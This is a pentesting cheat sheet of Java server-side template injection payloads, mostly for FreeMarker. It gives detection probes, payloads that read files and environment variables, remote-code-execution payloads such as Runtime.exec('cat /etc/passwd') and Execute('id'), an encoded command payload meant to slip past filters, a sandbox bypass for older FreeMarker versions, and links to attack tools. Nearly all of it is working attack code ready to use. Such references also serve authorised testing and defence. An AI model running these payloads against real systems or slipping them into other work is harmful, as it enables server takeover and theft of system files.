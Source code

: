 
# Common injections

**Proof of concept**
```java
${7*7}
${{7*7}}
#{7*7} 
*{7*7}
@{7*7}
~{7*7}
```

**Utils**
```java
// ?
class.getClassLoader()
// Get pwd
class.getResource("").getPath() 
// Get file content
class.getResource("../../../../../index.htm").getContent() 
// List environement variables
T(java.lang.System).getenv()
// RCE
T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd')
// RCE with decimal encoding : following command is `id`
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

# FreeMarker

> FreeMarker is one of the most popular Java template languages, and the language I've seen exposed to users most frequently.


> [!NOTE] HTTP Header
> FreeMarker can send an `X-Powered-By:FREEMARKER` HTTP header, this can help during detection

**Detect**
```java
{{7*7}}   // Should return {{7*7}}
${7*7}    // Should return 49
#{{7*7}}  // Should return 49
${7*'7'}  // Should return nothing or an error
${foobar} // Should return nothing
```

**Utils**
```java
// RCE
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
// RCE 2
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
// RCE 3
${"freemarker.template.utility.Execute"?new()("id")}
// File read
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('./').toURL().openStream().readAllBytes()?join(" ")}
```

**Sandbox bypass**
```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

> [!NOTE] FreeMarker SandBox Bypass
> Works only on FreeMarker versions released before the 2.3.30


# Tools

- https://github.com/vladko312/SSTImap
- [https://github.com/epinna/tplmap](https://github.com/epinna/tplmap)

# Resources

- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md